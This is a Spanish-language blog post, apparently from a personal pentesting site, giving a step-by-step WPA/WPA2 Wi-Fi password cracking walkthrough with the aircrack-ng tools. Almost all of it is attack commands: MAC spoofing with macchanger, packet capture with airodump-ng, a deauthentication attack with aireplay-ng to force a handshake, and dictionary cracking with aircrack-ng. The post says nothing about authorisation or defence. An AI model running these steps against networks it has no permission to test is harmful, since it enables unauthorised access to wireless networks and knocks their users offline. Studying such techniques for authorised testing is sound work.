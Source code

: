 ```yaml
---
title: wpa
description: 
date: 2015-09-05
lastmod: 2015-09-05
slug: wpa
image: "covers/pentesting.png"
tags:
  - wpa
  - aircrack
  - wifi
categories:
  - Pentesting
---
```




## WPA / WPA2 Cracking

###### 1. Para saber que wlan tenemos.
`airmon-ng`


###### 2. Para parar la wlan0.
`airmon-ng stop wlan0`


###### 3. Para bajar el adaptador wifi y poder modificar su mac
`ifconfig wlan0 down`


###### 4. Para cambiar la mac, podemos poner la que queramos.
`macchanger --mac [00:11:22:33:44:55] wlan0`


###### 5. Para volver a activar la wlan0.
`airmon-ng start wlan0`


###### 6. Para escanear las redes cercanas. Nos interesan las BSSID y la STATION.
`airodump-ng mon0`


###### 7. En --channel ponemos el CH, en --bssid la MAC y en -w ponemos la direccion de donde queremos que se guarden los .cap.
`airodump-ng mon0 --channel 11 --bssid [A0:21:B7:D5:A8:78] -w [/tmp/wpa2]`


###### 8. Para inyectar paquetes y capturar el Handshake, en -a ponemos la BSSID, en -c ponemos la STATION.
`aireplay-ng -0 11 -a [A0:21:B7:D5:A8:78] -c [00:12:F0:D3:30:BC] mon0`

> Una vez hecho esto solo nos queda desencriptar la password, lo podemos hacer de dos maneras por medio de diccionario o bruteandola con el Jonh The Ripper


###### 9. Crackear con diccionario, -w aqui la dirección del diccionario -b la dirección MAC, y por ultimo la dirección de donde se guardaban los paquetes .cap
`aircrack-ng -w [/pentest/passwords/wordlists/darkc0de.lst] -b [A0:21:B7:D5:A8:78] [/tmp/wpa2-01.cap]`
